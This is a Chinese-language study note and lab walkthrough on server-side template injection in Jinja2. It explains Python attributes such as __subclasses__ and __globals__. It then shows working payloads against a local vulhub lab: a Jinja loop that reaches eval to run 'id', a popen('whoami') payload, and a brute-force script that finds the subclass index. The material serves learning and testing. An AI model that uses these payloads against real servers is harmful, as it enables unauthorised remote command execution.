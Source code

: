```yaml
---
title: 笔记
categories: [笔记]
comments: true
---
```

# SSTI笔记

## 前言

之前对于SSTI的payload构造不是很了解，今天打算重新学一下，了解payload的构造方法

10月份的时候闲的无聊就在挖公益SRC，遇到了一个tomcat的站，然后在Freebuf找到了一个挖洞经验分享，他就用到了Burpsuite的这个模块。这里插个眼：https://www.freebuf.com/articles/web/247253.html

## 利用点

\_\_class\__

返回对象所属类

![image-20201213174236634](../assets/img/text/image-20201213174236634.png)

\__bases\_\_

以元组的形式返回一个类所继承的类

![image-20201213174528533](../assets/img/text/image-20201213174528533.png)

\__mro__

以元组形式返回类的解析顺序

![image-20201213174614261](../assets/img/text/image-20201213174614261.png)

\__subclasses__()

返回类下的所有子类

![image-20201213174925233](../assets/img/text/image-20201213174925233.png)

\__init__

获取每个类的\__init\_\_函数

funtions.\__globals__

用于获取function所处空间下可使用的module、方法以及所有变量。

![image-20201213175305093](../assets/img/text/image-20201213175305093.png)

## 基本注入思路

利用\_\_class\_\_拿到对应的类、利用\__base\_\_拿到基类、用\_\_subclasses\_\_()拿到可利用的类，尝试利用这些类进行getshell

## 实例

靶场来源于vulhub docker搭建的靶场

访问靶场

![image-20201213180017624](../assets/img/text/image-20201213180017624.png)

尝试检测是否存在注入http://192.168.35.128:8000/?name={{123*2}}

![image-20201213180044688](../assets/img/text/image-20201213180044688.png)

发现得到的结果正好是算术表达式的结果。确定存在注入

输入payload尝试获取类,需要注意的是要打开F12，不然是看不见解析出来的结果的，因为得到的是<class 'object'>，html会将他识别为标签解析，所以在网页上无法直接显示

http://192.168.35.128:8000/?name={{123.\_\_class\_\_.\_\_bases\_\_}}

![image-20201213180220233](../assets/img/text/image-20201213180220233.png)

获取子类http://192.168.35.128:8000/?name={{123.\_\_class\_\_.\_\_bases\_\_[0].\_\_subclasses\_\_()}}

![image-20201213180534161](../assets/img/text/image-20201213180534161.png)





然后如果在html里找太麻烦了，我懒得看，所以可以换一种方式，利用执行语句的方式直接找到函数之后进行命令执行

```
{% for c in [].__class__.__base__.__subclasses__() %}
{% if c.__name__ == 'catch_warnings' %}
  {% for b in c.__init__.__globals__.values() %}
  {% if b.__class__ == {}.__class__ %}
    {% if 'eval' in b.keys() %}
      {{ b['eval']('__import__("os").popen("id").read()') }}
    {% endif %}
  {% endif %}
  {% endfor %}
{% endif %}
{% endfor %}

```

![image-20201213193534127](../assets/img/text/image-20201213193534127.png)

## 后记

之前一直在尝试用popen也就是固定的位置，本机测出来的128索引，但是一直失败，不知道为啥，然后去靶机里面查看了才知道是位置不同，踩了好久的坑。。最后测出来popen函数的位置在117

```python
{{"".__class__.__bases__[0].__subclasses__()[117].__init__.__globals__.popen('whoami').read()}}
```

![image-20201213193856764](../assets/img/text/image-20201213193856764.png)

其实也可以利用python写一个简单的脚本遍历这个参数

```python
import requests
for i in range(0,1000):

    url = 'http://192.168.35.128:8000/?name={{"".__class__.__bases__[0].__subclasses__()[%d].__init__.__globals__.popen(\'whoami\').read()}}'% i
    response = requests.get(url)
    if response.status_code == 200:
        print(i)
        break
```

![image-20201213194343290](../assets/img/text/image-20201213194343290.png)

因为错误的时候服务器是返回的500错误码，所以我直接利用200进行判断了，可以根据具体情况修改。